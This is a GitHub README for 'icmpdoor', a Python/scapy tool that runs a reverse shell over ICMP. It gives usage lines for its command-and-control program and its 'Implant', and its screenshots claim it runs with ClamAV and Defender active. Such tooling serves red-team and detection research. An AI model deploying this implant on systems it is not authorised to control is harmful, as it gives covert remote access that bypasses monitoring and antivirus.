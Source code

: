 # icmpdoor - ICMP Reverse Shell
icmpdoor is written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

Python version usage (both Windows and Linux):
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

Binary Windows version usage version:
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

Binary Linux version usage version:
```bash
./icmp-cnc -d DESTINATION_IP (Command and Control)
./icmpdoor -d DESTINATION_IP (Implant)
```

Parameters details:
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
